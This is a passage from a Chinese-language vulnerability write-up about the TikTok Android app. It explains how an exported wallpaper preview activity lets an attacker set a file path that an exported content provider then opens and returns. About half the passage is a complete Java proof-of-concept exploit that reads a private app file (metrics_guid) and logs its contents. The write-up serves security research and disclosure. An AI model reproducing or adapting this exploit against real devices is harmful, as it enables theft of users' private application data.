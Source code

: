 总结下这个漏洞：导出组件`com.ss.android.ugc.aweme.livewallpaper.ui.LiveWallPaperPreviewActivity`能修改掉一个对象实例的字段，导出组件`com.ss.android.ugc.aweme.livewallpaper.WallPaperDataProvider`会获取上述对象实例的字段`videoPath`作为路径进行文件打开并返回

常规扫描器最多只能扫描出来组件`com.ss.android.ugc.aweme.livewallpaper.WallPaperDataProvider`导出可能存在问题，将两个组件通过一个变量赋值读取行为进行关联，大概率是使用污点分析

目前的Path Finder暂时就先不考虑这样的漏洞模型了，不过我已经有想法如何进行处理了

漏洞利用不复杂，因为传入的是序列化后的私有类对象，我们需要在Poc里添加这个私有类，有个简单办法是直接把`classes.dex`文件转换为Jar包，作为第三方库导入，这个应用有很多的Dex文件，这个版本的`com.ss.android.ugc.aweme.livewallpaper.model.LiveWallPaperBean`在文件`classes5.dex`，在启动导出组件`com.ss.android.ugc.aweme.livewallpaper.ui.LiveWallPaperPreviewActivity`后，Poc会延迟五秒，这个时间用于点击按钮来实现数据写入，五秒后开始查询，将查询到的结果在日志里输出
```
public class MainActivity extends Activity {
    String theft = "/data/user/0/com.zhiliaoapp.musically/app_webview/metrics_guid";
    
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        LiveWallPaperBean liveWallPaperBean = LiveWallPaperBean.buildEmptyBean();
        liveWallPaperBean.setHeight(100);
        liveWallPaperBean.setWidth(100);
        liveWallPaperBean.setId("1337");
        liveWallPaperBean.setSource(theft);
        liveWallPaperBean.setThumbnailPath(theft);
        liveWallPaperBean.setVideoPath(theft);

        Intent intent = new Intent();
        intent.setClassName(
                "com.zhiliaoapp.musically", 
                "com.ss.android.ugc.aweme.livewallpaper.ui.LiveWallPaperPreviewActivity");
        intent.putExtra("live_wall_paper", liveWallPaperBean);
        startActivity(intent);

        Uri uri = Uri.parse("content://com.zhiliaoapp.musically.wallpapercaller/video_path");
        new Handler().postDelayed(() -> {
            try {
                InputStream inputStream = getContentResolver().openInputStream(uri);
                BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(inputStream));
                String lineStr = null;
                while ((lineStr = bufferedReader.readLine()) != null) {
                    Log.e(TAG, "onCreate: ==> " + lineStr);
                }
                bufferedReader.close();
            }
            catch (Throwable th) {
                throw new RuntimeException(th);
            }
        }, 5000);
    }
}
```
